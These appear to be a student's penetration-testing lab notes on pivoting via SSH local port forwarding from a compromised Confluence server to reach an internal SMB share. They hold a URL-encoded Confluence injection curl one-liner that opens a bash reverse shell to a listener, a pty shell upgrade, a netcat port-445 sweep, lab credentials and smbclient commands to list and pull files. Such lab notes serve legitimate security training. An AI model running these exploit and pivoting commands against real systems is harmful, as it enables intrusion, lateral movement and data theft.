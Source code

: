 ![[Pasted image 20240120184306.png]]

	- In this type of scenario, we'll plan to create an SSH local port forward as part of our SSH connection from CONFLUENCE01 to PGDATABASE01. We will bind a listening port on the WAN interface of CONFLUENCE01. All packets sent to that port will be forwarded through the SSH tunnel. PGDATABASE01 will then forward these packets toward the SMB port on the new host we found.

Example:
	- Need to know exact IP and port for SSH local port forward
- curl one-liner for rev shell (Lab set-up) - CONFLUENCE01
	- ```curl http://192.168.226.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.64.3/5555%200%3E%261%27%29.start%28%29%22%29%7D/```
- make sure we have TTY functionality using Python3 *pty* module
	- ```python3 -c 'import pty; pty.spawn("/bin/bash")'```
		- or
	- ```python3 -c 'import pty; pty.spawn("/bin/sh")'```
- ssh into PGDATABASE01
	- ```ssh database_admin@10.4.50.215```
		- pass = sqlpass123
- enumerate
	- ```ip addr```
- discover subnets
	- ```ip route```
- Bash for loop using Netcat to sweep for hosts with an open port 445 on /24 subnet
	- ```for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done```
		- -z = check for listening port w/out sending data
		- -v = verbose
		- -w = 1 = lower time-out threshold
- SSH Local Port Forward
	- ```ssh -N -L 0.0.0.0:4455:172.16.225.217:4242 database_admin@10.4.225.215```
		- -L = OpenSSH's port forwarding
			- format = IP:PORT:IP:PORT
				- listening ip & port : tgt ip & port
		- -N = prevent a shell from being opened
		- -v = to debug
			- if fails we wont know unless -v option
- Curl one-liner to catch another rev shell
- confirm ssh process is working
	- ```ss -ntplu```

![[Pasted image 20240120192318.png]]

- Since working, enumerate SMB
	- ```smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234```
		- -L = list available shares
		- -p = port
		- -U = usersname
		- --password = password
- enumerate **scripts** SMB share
	- ```smbclient -p 4455 //192.168.225.63/scripts -U hr_admin --password=Welcome1234```
	- ```ls```
	- ```get Provissioning.ps1```
